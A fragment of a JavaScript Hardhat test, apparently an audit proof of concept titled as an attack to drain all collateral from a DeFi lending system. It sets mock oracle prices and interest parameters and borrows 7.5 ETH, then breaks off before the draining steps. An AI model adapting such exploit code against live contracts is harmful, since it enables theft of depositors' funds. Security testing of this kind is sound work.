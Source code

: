 ```js
      pools,
      loanId,
      accountId,
      depositAmount,
      depositFAmount,
    };
  }

  after(async () => {
    await reset();
  });

  describe("Attack", () => {
    it.only("Should perform a fantastic attack to drain all the collateral from system", async () => {
      const {
        admin,
        hub,
        user,
        unusedUsers,
        loanManager,
        loanManagerAddress,
        oracleManager,
        libraries,
        depositOneEther,
        loanTypeId,
        pools,
        loanId,
        accountId,
        depositAmount,
        depositFAmount,
      } = await loadFixture(depositZeroTenTimesOneEtherOnceFixture);

      // set prices
      const ethNodeOutputData = getNodeOutputData(BigInt(3000e18));
      await oracleManager.setNodeOutput(pools.ETH.poolId, pools.ETH.tokenDecimals, ethNodeOutputData);

      // prepare borrow
      const variableInterestIndex = BigInt(1.2e18); // No interest
      const stableInterestRate = BigInt(0);
      await pools.ETH.pool.setBorrowPoolParams({ variableInterestIndex, stableInterestRate });
      await pools.ETH.pool.setUpdatedVariableBorrowInterestIndex(variableInterestIndex);

      /* ----------------------------- BORROW 7.5 ETH ----------------------------- */

      const borrowAmount = BigInt(7.5e18);
      const borrow = await loanManager
        .connect(hub)
        .borrow(loanId, accountId, pools.ETH.poolId, borrowAmount, BigInt(0));
    });
  });
});

```